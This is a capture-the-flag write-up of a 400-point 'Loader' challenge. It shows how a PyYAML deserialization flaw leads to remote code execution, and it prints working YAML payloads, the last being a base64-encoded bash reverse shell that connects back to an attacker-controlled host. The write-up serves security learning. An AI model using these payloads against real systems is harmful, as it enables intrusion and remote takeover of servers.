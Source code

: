 # Loader challenge Writeup : 

- Challenge Name : Loader

- Weight : 400 pts



TL;DR : Exploiting a Python De-Serialization leading to an RCE thanks To yaml/PyYaml.



This is the main challenge page "adminer loader" with a data submission form.

 ![gif here](https://raw.githubusercontent.com/TebbaaX/CTFs/main/HackerNewsBdarija-CTF-2022/loadder/loader/loadder_x.gif?token=GHSAT0AAAAAABTT5PBKXFRB2D3HCN5AH6JMYS6DYIA)




as you can see! you simply submit an input text and it get reflected/alerted.



looking under the hood we have this interesting js script that actually posts data on `api/load`, and after posting it! it gets alerted.

 ![gif here](https://raw.githubusercontent.com/TebbaaX/CTFs/main/HackerNewsBdarija-CTF-2022/loadder/loader/magic_behind.PNG?token=GHSAT0AAAAAABTT5PBLQKOWFT3YEZU5CLYGYS6DZBQ)

one more interesting thing is the `btoa()` js function that converts the input string to an base64. confirmed by intercepting the request on burp as shown.
the response also show an interesting server header indicating that this runs on py.

 ![gif here](https://raw.githubusercontent.com/TebbaaX/CTFs/main/HackerNewsBdarija-CTF-2022/loadder/loader/burp_2.PNG?token=GHSAT0AAAAAABTT5PBKYKRVP6QCZJV6PTIIYS6D2OQ)

Challenge hint mentioned a data format used by SOC Team leads and Threat hunters, after some time it was obviously yaml.


> .... (and) YAML is a human-readable data-serialization language. It is commonly used for configuration files and in applications where data is being stored...

spent sometime reading papers and references along with g0rchy ended up with constructing a "checkup payload" to check if we really about to solve this challenge. 



checkup payload looked like this : 

> `!!python/object/new:tuple [!!python/object/new:map [!!python/name:eval , [ '1+1' ]]]`

simple `!!python/object/new:tuple` to initiate a tuple since were running on YAML...,  `map()` to serve both the function and the iterable that will be "mapped" and `eval()` to check the legality of the python statement... and you know 1+1 :) .

![gif here](https://raw.githubusercontent.com/TebbaaX/CTFs/main/HackerNewsBdarija-CTF-2022/loadder/loader/2pic.PNG?token=GHSAT0AAAAAABTT5PBLCZN7BLXBWBDRYV2WYS6D3WQ)

seems like we are in the correct direction!


The second payload we did call python and tried to get at least the built-in python-id trace : 

> `!!python/object/new:tuple [!!python/object/new:map [!!python/name:eval , [ "__import__('os').system('id')" ]]]`

Returned with the `os.system()` encoded exit value 0 that means success! well, that's great.

![gif here](https://raw.githubusercontent.com/TebbaaX/CTFs/main/HackerNewsBdarija-CTF-2022/loadder/loader/0.PNG?token=GHSAT0AAAAAABTT5PBKC4EECREKBIC4SE56YS6D44Q)

The last constructed payload is to get a bash rev shell

according to my teammate g0rchy in APTx1337 who likes keeping the team's work as based as possible we used base64 encoded bash reverse shell, and for the guys who can't handle based-ness you can use escaped quotes bash payloads!

the final payload looks like this : 


> ` !!python/object/new:tuple [!!python/object/new:map [!!python/name:eval , [ "__import__('os').system('echo c2ggLWkgPiYgL2Rldi90Y3AvJExIT1NULyRMUE9SVCAwPiYx|base64 -d|bash')" ]]]`

and...


![gif here](https://raw.githubusercontent.com/TebbaaX/CTFs/main/HackerNewsBdarija-CTF-2022/loadder/loader/sweet.PNG?token=GHSAT0AAAAAABTT5PBLFAR3AI75T44PH4CSYS6D5XQ)












it works! 
